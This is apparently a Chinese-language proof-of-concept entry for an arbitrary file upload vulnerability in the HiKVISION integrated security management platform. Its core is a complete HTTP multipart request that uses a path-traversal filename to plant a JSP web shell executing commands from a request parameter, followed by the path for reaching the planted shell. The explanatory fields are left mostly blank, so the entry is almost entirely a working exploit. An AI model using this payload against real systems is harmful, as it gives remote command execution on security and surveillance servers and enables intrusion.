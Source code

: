 ﻿# HiKVISION 综合安防管理平台 files 任意文件上传漏洞

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
POST /svm/api/external/report HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%Runtime.getRuntime().exec(request.getParameter("i"));%>
------WebKitFormBoundary9PggsiM755PLa54a--
```

> 响应代码特征：-1

> 响应内容特征：

> 上传文件定位：/portal/ui/login/..;/..;/new.jsp

> 验证文件来源：HiKVISION 综合安防管理平台 files 任意文件上传漏洞.poc
